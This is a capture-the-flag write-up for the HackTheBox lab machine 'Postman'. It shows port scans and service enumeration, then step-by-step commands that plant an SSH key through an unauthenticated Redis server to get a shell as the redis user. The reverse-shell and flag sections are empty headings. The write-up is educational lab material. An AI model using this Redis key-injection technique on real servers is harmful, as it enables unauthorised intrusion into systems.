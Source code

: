 ## Default Information
IP Address: 10.10.10.160\
OS: Linux

## Discovery

Before we start, let's first add the IP address and the host to our ```/etc/hosts``` file.

```
10.10.10.160    postman.htb
```
### Masscan
Firstly, we will use masscan to identify the open ports

```
┌──(kali㉿kali)-[~]
└─$ sudo masscan -p1-65535,U:1-65535 10.10.10.160 --rate=1000 -e tun0
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2021-10-02 01:05:16 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 22/tcp on 10.10.10.111
Discovered open port 80/tcp on 10.10.10.111
Discovered open port 6379/tcp on 10.10.10.111
Discovered open port 10000/tcp on 10.10.10.111
Discovered open port 10000/udp on 10.10.10.111
```

### Nmap
We will then use the open ports obtained from masscan to run a scan using nmap to enumerate the services operating behind each port

| Port Number | Service | Version | State |
|-----|------------------|----------------------|----------------------|
| 22	| SSH | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0) | Open |
| 80	| HTTP | Apache httpd 2.4.29 ((Ubuntu)) | Open |
| 6379	| redis | Redis key-value store 4.0.9 | Open |
| 10000	| HTTP | MiniServ 1.910 (Webmin httpd) | Open |

We also discovered that the service behind UDP port 10000
| Port Number | Service | Reason | State |
|-----|------------------|----------------------|----------------------|
| 10000	| webmin | udp-response ttl 63 (https on TCP port 10000) | open |

Afterwwards, we will use Nmap to scan for potential vulnerabilties on each of the ports. From the output, we discovered that port 80 might be vulnerable to SQL injection, while port 10000 might be vulnerbale to CVE-2006-3392

```
80/tcp    open  http             syn-ack ttl 63
|_http-sql-injection: 
|   Possible sqli for queries:
|     http://postman.htb:80/js/?C=D%3bO%3dA%27%20OR%20sqlspider
|     http://postman.htb:80/js/?C=N%3bO%3dD%27%20OR%20sqlspider
|     http://postman.htb:80/js/?C=S%3bO%3dA%27%20OR%20sqlspider
|     http://postman.htb:80/js/?C=M%3bO%3dA%27%20OR%20sqlspider
|     http://postman.htb:80/js/?C=N%3bO%3dA%27%20OR%20sqlspider
|     http://postman.htb:80/js/?C=D%3bO%3dD%27%20OR%20sqlspider
|     http://postman.htb:80/js/?C=S%3bO%3dA%27%20OR%20sqlspider
|_    http://postman.htb:80/js/?C=M%3bO%3dA%27%20OR%20sqlspider
10000/tcp open  snet-sensor-mgmt syn-ack ttl 63
| http-vuln-cve2006-3392: 
|   VULNERABLE:
|   Webmin File Disclosure
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2006-3392
|       Webmin before 1.290 and Usermin before 1.220 calls the simplify_path function before decoding HTML.
|       This allows arbitrary files to be read, without requiring authentication, using "..%01" sequences
|       to bypass the removal of "../" directory traversal sequences.
|       
|     Disclosure date: 2006-06-29
|     References:
|       http://www.exploit-db.com/exploits/1997/
|       http://www.rapid7.com/db/modules/auxiliary/admin/webmin/file_disclosure
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3392
```

### Gobuster
We will then use Gobuster to find the endpoints that are accessible from http://postman.htb

```
http://postman.htb/images               (Status: 301) [Size: 311] [--> http://postman.htb/images/]
http://postman.htb/upload               (Status: 301) [Size: 311] [--> http://postman.htb/upload/]
http://postman.htb/css                  (Status: 301) [Size: 308] [--> http://postman.htb/css/]
http://postman.htb/js                   (Status: 301) [Size: 307] [--> http://postman.htb/js/]
http://postman.htb/fonts                (Status: 301) [Size: 310] [--> http://postman.htb/fonts/]
http://postman.htb/server-status        (Status: 403) [Size: 299]
```

Next, we will try to use Gobuster to do an enumeration for common files extensions such as .js,.txt,.php and .html.

```
http://postman.htb/index.html           (Status: 200) [Size: 3844]
http://postman.htb/upload               (Status: 301) [Size: 311] [--> http://postman.htb/upload/]
http://postman.htb/css                  (Status: 301) [Size: 308] [--> http://postman.htb/css/]
http://postman.htb/js                   (Status: 301) [Size: 307] [--> http://postman.htb/js/]
http://postman.htb/fonts                (Status: 301) [Size: 310] [--> http://postman.htb/fonts/]
http://postman.htb/server-status        (Status: 403) [Size: 299]
```
### Autorecon

From the outputs of autorecon, we are able to determine the configurations of the server

```
# Server
redis_version:4.0.9
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:9435c3c2879311f3
redis_mode:standalone
os:Linux 4.15.0-58-generic x86_64
arch_bits:64
multiplexing_api:epoll
atomicvar_api:atomic-builtin
gcc_version:7.4.0
process_id:637
run_id:73c691791a8db843715eabdd643e2037b9c304df
tcp_port:6379
uptime_in_seconds:7860
uptime_in_days:0
hz:10
lru_clock:7430281
executable:/usr/bin/redis-server
config_file:/etc/redis/redis.conf
```
### Redis enumeration

We shall first check if this redis server can be accessed while authenticated. From the output, we are able to view the keys of the redis server while we are unauthenticated. This provides a possible point of exploitation as we can access the redis server while authenticated and carry out malicious actions. We are also able to know that we have a user ```redis``` in this server.

```
┌──(kali㉿kali)-[~]
└─$ redis-cli -h 10.10.10.160 -p 6379
10.10.10.160:6379> keys *
(empty array)
10.10.10.160:6379> config get dir
1) "dir"
2) "/var/lib/redis"
```

### Web-content discovery

Exploring http://postman.htb:80 does not yield any desirable results. Navigating to http://postman.htb:10000 on the other hand, points us to another endpoint which is https://Postman:10000/

![Image of website at port 10000](https://github.com/joelczk/writeups/blob/main/HTB/Images/Postman/port10000.PNG)

Next we will add the new endpoint to our /etc/hosts fil

```
10.10.10.160    postman.htb postman
```

Lastly, we will enumerate the endpoints on https://postman:10000 with Gobuster.

## Exploit
### RCE via redis
Firstly, we will create our own ssh public-private key pair using ```ssh-keygen -t rsa ```

Next, we will write our public-private keypair to a file and import the file into redis
```
┌──(kali㉿kali)-[~/Desktop/postman]
└─$ (echo -e "\n\n"; cat rsa.pub; echo -e "\n\n") > spaced_key.txt
                                                                                           
┌──(kali㉿kali)-[~/Desktop/postman]
└─$ cat spaced_key.txt | redis-cli -h 10.10.10.160 -x set ssh_key                  148 ⨯ 1 ⚙
OK
```

```
10.10.10.160:6379> config get dir
1) "dir"
2) "/var/lib/redis"
10.10.10.160:6379> config set dir /var/lib/redis/.ssh
OK
10.10.10.160:6379> config set dbfilename "authorized_keys"
OK
10.10.10.160:6379> save
OK
10.10.10.160:6379> 
```

```
┌──(kali㉿kali)-[~/Desktop/postman]
└─$ ssh -i rsa redis@10.10.10.160
The authenticity of host '10.10.10.160 (10.10.10.160)' can't be established.
ECDSA key fingerprint is SHA256:kea9iwskZTAT66U8yNRQiTa6t35LX8p0jOpTfvgeCh0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.160' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch
Last login: Mon Aug 26 03:04:25 2019 from 10.10.10.1
redis@Postman:
```
### Obtaining reverse shell
### Obtaining user flag
### Obtaining root flag
